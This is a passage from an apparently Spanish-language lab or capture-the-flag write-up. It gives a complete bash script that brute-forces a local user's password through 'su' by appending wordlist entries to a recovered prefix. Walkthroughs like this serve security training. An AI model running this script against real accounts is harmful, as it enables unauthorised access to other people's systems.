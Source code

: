 Despues de unos `18` minutos, veremos que nos saca la contraseña que sera `Passw0rd2`, ahora le tendremos que añadir lo que nos menciono la nota anteriormente pero para descubrir dicha contraseña, tendremos que probar fuerza bruta creandonos un script de la siguiente forma:

> suBruteforceUpdate.sh

```bash
#!/bin/bash

mostrar_ayuda() {
    echo -e "\e[1;33mUso: $0 [user] [diccionario]"
    echo -e "\e[1;31mEspecifica el nombre de usuario y el archivo de diccionario (wordlist)\e[0m"
    echo -e "\e[1;33m==================================="
    echo -e "\e[1;33mEjemplo de uso: \n"
    echo -e "./$0 user wordlist.txt\e[0m"
    echo -e "\e[1;33m===================================\e[0m"
    exit 1
}

imprimir_banner() {
    echo -e "\e[1;34m"
    echo "***************************"
    echo "*       suBruteforce      *"
    echo "*        d1se0 v2.0       *"
    echo "***************************"
    echo -e "\e[0m"
}

finalizar() {
    echo -e "\e[1;31m\nFinalizando el script\e[0m"
    exit
}

trap finalizar SIGINT

usuario=$1
diccionario=$2

if [[ $# != 2 ]]; then
    mostrar_ayuda
fi

imprimir_banner

while IFS= read -r password; do
    if [[ "$(whoami)" == "$usuario" ]]; then
        echo -e "\e[1;33m[!] Ya eres el usuario $usuario, no es necesario realizar fuerza bruta.\n\e[0m"
        break
    fi

    modificado="Passw0rd2$password"
    echo -e "\e[1;31m[-] Probando $usuario:$modificado\e[0m"

    if timeout 0.1 bash -c "echo $modificado | su $usuario -c 'echo HELLO'" > /dev/null 2>&1; then
        clear
        echo -e "\e[1;32m[+] Contraseña encontrada para el usuario $usuario:$modificado\e[0m"
        break
    fi
done < "$diccionario"
```
